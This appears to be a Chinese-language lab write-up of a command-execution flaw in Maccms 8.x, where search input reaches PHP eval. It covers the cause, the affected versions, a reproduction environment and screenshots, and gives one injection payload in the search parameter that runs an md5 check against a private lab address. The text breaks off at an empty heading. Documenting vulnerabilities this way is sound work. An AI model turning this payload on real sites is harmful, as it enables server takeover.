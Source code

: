# maccms8命令执行漏洞



### 1.1、漏洞描述

Maccms搜索页面搜索输入参数过滤不严谨导致前台命令执行可getshell

该漏洞主要的产生原因是CMS搜索页面搜索参数过滤不严导致直接eval执行PHP语句。

### 1.2、影响版本

Maccms8.x

### 1.3、漏洞复现

#### 1、基础环境

环境地址：https://github.com/yaofeifly/Maccms8.x?tab=readme-ov-file

---

![image-20231217201351568](./imgs/image-20231217201351568.png)



#### 2、漏洞扫描

![image-20231219114438584](./imgs/image-20231219114438584.png)

Payload:` http://10.9.75.20/index.php?m=vod-search&wd={if-A:printf(md5(827036698))}{endif-A}`

#### 3、漏洞验证

漏洞点：http://10.9.75.20/index.php?m=vod-search

![image-20231219114803293](./imgs/image-20231219114803293.png)

### 